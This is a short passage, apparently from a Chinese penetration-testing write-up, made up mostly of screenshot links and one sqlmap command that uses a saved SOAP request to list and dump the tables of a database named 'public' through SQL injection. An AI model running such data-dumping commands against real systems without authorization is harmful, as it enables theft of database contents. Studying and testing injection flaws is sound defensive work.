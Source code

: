 [![](assets/1705886707-d6c32fbf97a2d39467c7a1e96f0cedfb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120504-176e6c54-b749-1.png)  
跑表名

```plain
sqlmap -r soap.txt -D public --tables --dump
```

[![](assets/1705886707-4041816b1b8ac6e40748fd5e3234ac29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120527-24a3fbf0-b749-1.png)  
[![](assets/1705886707-f8263155d22362c1fe95c8b5ece922ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120534-28d9c858-b749-1.png)
